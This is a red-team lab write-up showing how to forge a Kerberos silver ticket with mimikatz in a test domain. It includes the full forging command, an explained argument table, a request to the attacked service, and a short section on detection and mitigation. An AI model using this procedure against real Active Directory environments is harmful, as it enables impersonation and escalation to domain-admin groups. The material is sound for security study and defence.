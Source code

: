 ```yaml
---
layout: post
title: "kerberos silver tickets"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


---
description: Credential Access
---

# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.&#x20;

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument                                            | Notes                                                                                             |
| --------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user`                  |
| /target:dc-mantvydas.offense.local                  | server hosting the attacked service for which the TGS ticket was cracked                          |
| /service:http                                       | service type being attacked                                                                       |
| /rc4:a87f3a337d73085c45f9416be5787d86               | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case               |
| /user:beningnadmin                                  | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155                                            | Forging user's RID - fun                                                                          |
| /ptt                                                | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately            |

Getting our user's SID as explained in the first step in the above table:

![Getting a user's SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged (silver) ticket:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](<../../.gitbook/assets/silver-tickets-generated-ticket (2).png>)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name                  |
| --- | --------------------------- |
| 512 | Domain Admins               |
| 513 | Domain Users                |
| 518 | Schema Admins               |
| 519 | Enterprise Admins           |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](<../../.gitbook/assets/silver-tickets-4624 (1) (1).png>)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782\(v=ws.11\)) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}
@spotheplanet
